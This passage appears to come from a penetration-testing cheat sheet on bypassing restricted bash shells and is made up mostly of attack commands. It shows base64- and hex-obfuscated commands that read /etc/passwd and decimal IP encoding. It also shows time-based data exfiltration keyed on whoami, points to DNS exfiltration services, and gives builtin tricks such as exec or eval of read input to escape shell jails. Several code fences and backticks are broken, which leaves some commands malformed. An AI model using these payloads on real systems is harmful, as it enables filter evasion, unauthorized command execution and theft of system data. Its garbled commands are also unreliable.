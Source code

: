 ```
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
```
### Bypass with hex encoding

```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'
cat `xxd -r -p <<< 2f6574632f706173737764
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)
```
```
### Bypass IPs

```bash
# Decimal IPs
127.0.0.1 == 2130706433
```
```
### Time based data exfiltration

```bash
time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
```
```
### Getting chars from Env Variables

```bash
echo ${LS_COLORS:10:1} #;
echo ${PATH:0:1} #/
```
```
### DNS data exfiltration

You could use **burpcollab** or [[http://pingb.in|**pingb**]] for example.

### Builtins

In case you cannot execute external functions and only have access to a **limited set of builtins to obtain RCE**, there are some handy tricks to do it. Usually you **won't be able to use all** of the **builtins**, so you should **know all your options** to try to bypass the jail. Idea from [[https://twitter.com/devploit|**devploit**]].\
First of all check all the [[https://www.gnu.org/software/bash/manual/html_node/Shell-Builtin-Commands.html|**shell builtins**]]**.** Then here you have some **recommendations**:

```bash
# Get list of builtins
declare builtins

# In these cases PATH won't be set, so you can try to set it
PATH="/bin" /bin/ls
export PATH="/bin"
declare PATH="/bin"
SHELL=/bin/bash

# Hex
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")

# Input
read aaa; exec $aaa #Read more commands to execute and execute them
read aaa; eval $aaa

```